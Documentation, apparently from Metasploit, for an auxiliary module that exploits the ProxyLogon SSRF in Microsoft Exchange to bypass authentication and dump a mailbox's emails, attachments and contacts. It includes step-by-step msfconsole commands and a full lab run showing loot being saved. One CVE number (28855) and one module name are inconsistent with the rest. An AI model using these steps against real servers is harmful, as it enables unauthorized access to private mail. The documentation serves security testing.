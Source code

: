 ## Vulnerable Application

CVE-2021-28855 is a pre-authentication SSRF (Server Side Request Forgery) which allows an attacker to
bypass authentication by sending specially crafted HTTP requests. This vulnerability is part of an attack
chain used to perform an RCE (Remote Code Execution).

This vulnerability affects (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 15.01.2106.013,
Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 CU7 < 15.02.0721.013, Exchange 2019 CU8 < 15.02.0792.010).

### Introduction

This module exploit a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the
authentication and impersonating as the admin (CVE-2021-26855).

By taking advantage of this vulnerability, it is possible to dump all mailboxes (emails, attachments,
contacts, ...).

All components are vulnerable by default.

## Verification Steps

1. Start msfconsole
2. Do: `use auxiliary/gather/exchange_proxylogon`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `run`

## Options

### ATTACHMENTS

Dump documents attached to an email. Default: true

### EMAIL

The email account what you want dump.

### FOLDER

The email folder what you want dump. Default: inbox

It is also possible to use other attributes such as: drafts, sentitems, ...

More info about this in the references.

### METHOD

HTTP Method to use for the check (only). Default: POST

### TARGET

Force the name of the internal Exchange server targeted.

## Advanced Options

### MaxEntries

Override the maximum number of object to dump.

## Auxiliary Actions

### Dump (Contacts)

Dump user contacts from exchange server.

### Dump (Emails)

Dump user emails from exchange server.

## Scenarios

```
msf auxiliary(gather/exchange_proxylogon_collector) > options 

Module options (auxiliary/gather/exchange_proxylogon_collector):

   Name         Current Setting           Required  Description
   ----         ---------------           --------  -----------
   ATTACHMENTS  true                      yes       Dump documents attached to an email
   EMAIL        gaston.lagaffe@pwned.lab  yes       The email account what you want dump
   FOLDER       inbox                     yes       The email folder what you want dump
   METHOD       POST                      yes       HTTP Method to use for the check (only). (Accepted: GET, POST)
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       172.20.2.110              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        443                       yes       The target port (TCP)
   SSL          true                      no        Negotiate SSL/TLS for outgoing connections
   TARGET                                 no        Force the name of the internal Exchange server targeted
   VHOST                                  no        HTTP server virtual host


Auxiliary action:

   Name           Description
   ----           -----------
   Dump (Emails)  Dump user emails from exchange server


msf auxiliary(gather/exchange_proxylogon_collector) > run
[*] Running module against 172.20.2.110

[*] https://172.20.2.110:443 - Attempt to exploit for CVE-2021-26855
[*]  * internal server name (EXCH2K16)
[*] https://172.20.2.110:443 - Sending autodiscover request
[*]  * Server: d8a7cc8c-7180-4b80-b53e-57c3449bcd4e@pwned.lab
[*]  * LegacyDN: /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=9b9d8cf634f44ec4a0eda5c1c7c311da-Gasto
[*] https://172.20.2.110:443 - Sending mapi request
[*]  * sid: S-1-5-21-3756917241-677735496-3570881102-1141 (gaston.lagaffe@pwned.lab)
[*] https://172.20.2.110:443 - Selecting the first internal server found
[*]  * targeting internal: server2
[*] https://172.20.2.110:443 - Attempt to dump emails for <gaston.lagaffe@pwned.lab>
[*]  * successfully connected to: inbox
[*]  * selected folder: inbox (AQAYAGdhc3Rvbi5sYWdhZmYAZUBwd25lZC5sYWIALgAAA+uQmQIqiSJLiXyYWVYT65MBACRuvwACXEpAuhG13iUjVgwAAAIBDAAAAA==)
[*]  * number of email found: 4
[*] https://172.20.2.110:443 - Processing dump of 4 items
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAA6ItL
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_455715.txt
[*]    -> attachment: AAAYAGdhc3Rvbi5sYWdhZmZlQHB3bmVkLmxhYgBGAAAAAADrkJkCKokiS4l8mFlWE+uTBwAkbr8AAlxKQLoRtd4lI1YMAAAAAAEMAAAkbr8AAlxKQLoRtd4lI1YMAAAA6IA6AAABEgAQAFejlEQ+wzFDoBLnyMUbSk4= (Messagerie - Administrator - Outlook.pdf)
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_392827.pdf
[*]    -> attachment: AAAYAGdhc3Rvbi5sYWdhZmZlQHB3bmVkLmxhYgBGAAAAAADrkJkCKokiS4l8mFlWE+uTBwAkbr8AAlxKQLoRtd4lI1YMAAAAAAEMAAAkbr8AAlxKQLoRtd4lI1YMAAAA6IA6AAABEgAQAAZVIXO5iaNNtJIokpS4aB4= (03.png)
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_187857.png
[*] 
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAA6ItK
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_470603.txt
[*] 
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAAAAEc
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_296938.txt
[*] 
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAAAAEX
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_524052.txt
[*] 
[*] Auxiliary module execution completed
msf auxiliary(gather/exchange_proxylogon_collector) > set action Dump\ (Contacts) 
action => Dump (Contacts)
msf auxiliary(gather/exchange_proxylogon_collector) > run
[*] Running module against 172.20.2.110

[*] https://172.20.2.110:443 - Attempt to exploit for CVE-2021-26855
[*]  * internal server name (EXCH2K16)
[*] https://172.20.2.110:443 - Sending autodiscover request
[*]  * Server: d8a7cc8c-7180-4b80-b53e-57c3449bcd4e@pwned.lab
[*]  * LegacyDN: /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=9b9d8cf634f44ec4a0eda5c1c7c311da-Gasto
[*] https://172.20.2.110:443 - Sending mapi request
[*]  * sid: S-1-5-21-3756917241-677735496-3570881102-1141 (gaston.lagaffe@pwned.lab)
[*] https://172.20.2.110:443 - Selecting the first internal server found
[*]  * targeting internal: server2
[*] https://172.20.2.110:443 - Attempt to dump contacts for <gaston.lagaffe@pwned.lab>
[*]  * successfully connected to: contacts
[*]  * selected folder: contacts (AQAYAGdhc3Rvbi5sYWdhZmYAZUBwd25lZC5sYWIALgAAA+uQmQIqiSJLiXyYWVYT65MBACRuvwACXEpAuhG13iUjVgwAAAIBDgAAAA==)
[*]  * number of contact found: 1
[*] https://172.20.2.110:443 - Processing dump of 1 items
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120243_default_172.20.2.110_gaston.lagaffep_160567.txt
[*] Auxiliary module execution completed
msf auxiliary(gather/exchange_proxylogon_collector) > 
```

## References

1. <https://proxylogon.com/>
2. <https://aka.ms/exchangevulns>
3. <https://docs.microsoft.com/en-us/exchange/client-developer/web-service-reference/distinguishedfolderid>
4. <https://github.com/3gstudent/Homework-of-Python/blob/master/ewsManage.py>
